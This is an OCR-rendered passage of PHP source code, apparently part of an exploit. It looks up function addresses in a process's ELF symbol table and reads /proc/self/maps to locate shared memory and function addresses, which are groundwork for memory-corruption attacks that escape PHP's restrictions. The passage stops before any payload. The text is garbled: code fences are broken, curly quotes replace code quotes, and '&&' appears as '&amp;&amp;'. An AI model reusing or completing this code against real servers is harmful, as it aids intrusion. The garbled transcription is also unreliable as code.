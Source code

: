 ```
             if(!$dynstr_off)
                 $dynstr_off = str2ptr($elf, $offset + 0x18, 8);
             break;
     } 
    ```

    }

    if(!($dynsym_off && $dynsym_sz && $dynstr_off))

    exit(’.’);

    $sizeof_Elf64_Sym = 0x18;

    for($i=0;$i * $sizeof_Elf64_Sym < $dynsym_sz;$i++)

    {

    $offset = $dynsym_off + $i * $sizeof_Elf64_Sym;

    $st_name = str2ptr($elf, $offset, 4);

    ```
     if(!$st_name)
         continue;

     $offset_string = $dynstr_off + $st_name;
     $end = strpos($elf, "\x00", $offset_string) - $offset_string;
     $string = substr($elf, $offset_string, $end);

     if($string == $symbol)
     {
         $st_value = str2ptr($elf, $offset + 0x8, 8);
         return $st_value;
     } 
    ```

    }

    die('Unable to find symbol ’ . $symbol);

    }

# Obtains the addresses of the shared memory block and some functions through

# /proc/self/maps

# This is hacky as hell.

function get_all_addresses()

{

$addresses = [];

$data = file_get_contents(’/proc/self/maps’);

$follows_shm = false;

```
foreach(explode("\n", $data) as $line)
{
	if(!isset($addresses['shm']) &amp;&amp; strpos($line, '/dev/zero'))